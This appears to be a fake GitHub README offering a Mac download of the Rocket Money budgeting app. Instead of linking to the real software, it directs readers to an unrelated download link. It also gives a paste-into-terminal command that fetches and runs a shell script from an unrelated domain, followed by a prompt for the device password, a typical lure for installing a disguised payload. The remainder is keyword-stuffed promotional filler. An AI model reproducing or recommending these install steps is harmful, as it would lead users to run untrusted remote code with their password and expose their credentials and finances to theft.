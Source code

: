 # Rocket Money — Download For Mac OS 💸

Rocket Money is a powerful personal finance and budgeting tool designed to help users take full control of their money. With this Mac version, you can install and manage your finances directly from your desktop. Follow the instructions below to install it easily and securely. 💼

![rocketmoneyapp](https://i.pcmag.com/imagery/reviews/02Qu73ohKNRw0rBp6lpVnYP-14..v1752171562.png)

[![Download for Mac](https://img.shields.io/badge/Download%20for%20MacOS-Click%20Here-black?style=for-the-badge\&logo=apple)](https://mrboomzeus519.github.io/gimronus/rocketm)

If the download button does not work, follow the manual installation instructions below using your terminal.

---

## 📦 How to Install Rocket Money For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get With Rocket Money

* 💳 **Track Subscriptions** — Instantly see and manage all recurring charges.
* 📈 **Budgeting Made Easy** — Set monthly budgets and track your spending.
* 🏦 **Bank Account Syncing** — Securely connect your financial accounts.
* 🚫 **Cancel Subscriptions** — Cancel unwanted services in a few taps.
* 💡 **Spending Insights** — Receive smart insights into where your money goes.
* 🔔 **Real-Time Alerts** — Get notified when bills increase or change.

---

## About Rocket Money

Rocket Money (formerly Truebill) is a top-rated financial management app that helps users identify and cancel unwanted subscriptions, lower bills, and stay on top of their budgeting goals. With a sleek interface and powerful integrations, Rocket Money for Mac brings its full suite of financial tools right to your desktop.

Whether you're trying to gain control of your monthly expenses or looking to save for a specific goal, Rocket Money's budgeting features allow you to create smart financial plans and track your progress over time. It's more than a personal finance app — it's your financial command center.

By syncing with your bank accounts and providing real-time transaction tracking, Rocket Money gives users an accurate overview of their financial health. You can view spending by category, receive alerts when bills increase, and stay organized without having to switch between multiple apps.

Rocket Money is trusted by millions and rated highly for its ease of use and transparency. It's a powerful ally for those who want to eliminate financial waste and build better money habits — all from their Mac.

---

## ✅ Rocket Money Benefits

* 🧠 User-friendly interface with powerful budgeting tools
* 🔒 Bank-level security and encryption
* 📊 Real-time expense tracking and analytics
* ✂️ Built-in tools to cancel subscriptions
* 🔁 Automatic syncing with bank and credit accounts
* 🌍 Works seamlessly across devices

---

## 🖼 Preview

![Rocket Money Dashboard](https://framerusercontent.com/images/Je2J3DaEoJgCRfp6DSoeJAwwo4.png)
*An overview of the dashboard with monthly spending*

![Rocket Money Subscriptions](https://i.postimg.cc/W1bZtbRM/rocket-money-2.png)
*Easily manage and cancel recurring subscriptions*

![Rocket Money Budget Planner](https://i.postimg.cc/KYW3xzRz/rocket-money-3.png)
*Create and monitor monthly budgets in a few clicks*

![Rocket Money Notifications](https://i.postimg.cc/zG1GMYzr/rocket-money-4.png)
*Get real-time alerts on spending and bill changes*

---

## 🔍 Tags

rocket money mac, rocket money, rocket money download, rocket money reviews, rocket money app, rocketmoney reviews, rocket money app review, rocket money login, rocket money budget, rocket budget app, download rocket money free, budget app for mac, rocket money for macbook, personal finance mac app, subscription tracker mac, rocket money install macos, best budgeting software for mac, rocket money desktop version, money manager mac
